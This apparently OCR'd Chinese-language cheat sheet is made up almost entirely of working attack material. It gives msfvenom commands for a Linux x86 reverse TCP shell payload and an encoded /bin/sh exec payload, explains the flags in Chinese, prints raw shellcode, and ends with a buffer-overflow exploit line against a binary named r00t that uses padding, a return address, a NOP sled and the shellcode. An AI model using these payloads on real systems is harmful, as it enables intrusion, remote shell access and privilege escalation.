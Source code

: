 Linux：
msfvenom -a x86 --platform linux -p linux/x86/shell_reverse_tcp LHOST=x.x.x.x LPORT=443 -b "\x00\x09\x0a\x20" EXITFUNC=thread -f c

linux2：
msfvenom -a x86 -p linux/x86/exec CMD=/bin/sh -b '\x00\x09\x0a\x20' -e x86/shikata_ga_nai -fc

payload：
-a  框架选择
-p 载荷类型

LHOST 本机地址
LPORT

-b 坏字符
-e 要使用的编码器
-f 编译的语言
-c 指定要包含的附加 win32 shellcode 文件
-v 载荷的名称
------------
6）bash执行shell

"\xbb\x75\xc8\xc9\xe2\xd9\xec\xd9\x74\x24\xf4\x5f\x33\xc9\xb1\x0b\x83\xc7\x04\x31\x5f\x11\x03\x5f\x11\xe2\x80\xa2\xc2\xba\xf3\x61\xb3\x52\x2e\xe5\xb2\x44\x58\xc6\xb7\xe2\x98\x70\x17\x91\xf1\xee\xee\xb6\x53\x07\xf8\x38\x53\xd7\xd6\x5a\x3a\xb9\x07\xe8\xd4\x45\x0f\x5d\xad\xa7\x62\xe1"


./r00t $(python -c 'print "A"*268 + "\x80\xfb\xff\xbf" + "\x90"*20 + "\xbb\x75\xc8\xc9\xe2\xd9\xec\xd9\x74\x24\xf4\x5f\x33\xc9\xb1\x0b\x83\xc7\x04\x31\x5f\x11\x03\x5f\x11\xe2\x80\xa2\xc2\xba\xf3\x61\xb3\x52\x2e\xe5\xb2\x44\x58\xc6\xb7\xe2\x98\x70\x17\x91\xf1\xee\xee\xb6\x53\x07\xf8\x38\x53\xd7\xd6\x5a\x3a\xb9\x07\xe8\xd4\x45\x0f\x5d\xad\xa7\x62\xe1"')


-----------












